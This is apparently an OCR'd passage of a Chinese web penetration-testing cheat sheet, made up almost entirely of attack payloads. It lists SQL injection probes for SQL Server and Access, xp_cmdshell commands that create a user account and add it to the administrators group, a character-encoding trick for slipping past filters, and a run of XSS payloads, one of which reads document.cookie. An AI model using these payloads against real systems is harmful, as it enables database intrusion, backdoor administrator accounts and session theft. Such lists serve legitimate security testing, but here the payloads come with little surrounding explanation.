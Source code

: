 and 1=2    ;   ‘and 1=2

and 2=2

and user>0

and (select count(*) from sysobjects)>0

and (select count(*) from msysobjects)>0

and (Select Count(*) from Admin)>=0

and (select top 1 len(username) from Admin)>0(username 已知字段)

;exec master..xp_cmdshell “net user name password /add”—

;exec master..xp_cmdshell “net localgroup name administrators /add”—

and 0<>(select count(*) from admin)

简单的如where xtype=’U’，字符U对应的ASCII码是85，所以可以用where xtype=char(85)代替；如果字符是中文的，比如where name=’用户’，可以用where name=nchar(29992)+nchar(25143)代替。

 

1. **4.**   **跨站脚本攻击（****XSS****）**

对于 XSS，只需检查 HTML 输出并看看您输入的内容在什么地方。它在一个 HREF 标记中吗？是否在 IFRAME 标记中？它在 CLSID 标记中吗？在 IMG SRC 中吗？某些 Flash 内容的 PARAM NAME 是怎样的？

★[~!@#$%^&*()_+<>,./?;'"[\]{}\-](mailto:~!@#$%^&*()_+%3C%3E,./?;%27%22[]{}\-)

★%3Cinput /%3E

★%3Cscript%3Ealert('XSS')%3C/script%3E

★<input type="text"/>

★<input/>

★<input/ 

★<script>alert('xss')</script>

★<script>alert('xss');</script>

★</script><script>alert(‘xss’)</script>

★javascript:alert(/xss/)

★javascrip&#116&#58alert(/xss/)

★<img src="#" onerror=alert(/xss/)>

★<img src="#" style="Xss:expression(alert(/xss/));">

★<img src="#"/**/onerror=alert(/xss/) width=100>

★=’><script>alert(document.cookie)</script>

★1.jpg" onmouseover="alert('xss')

★"></a><script>alert(‘xss’);</script>
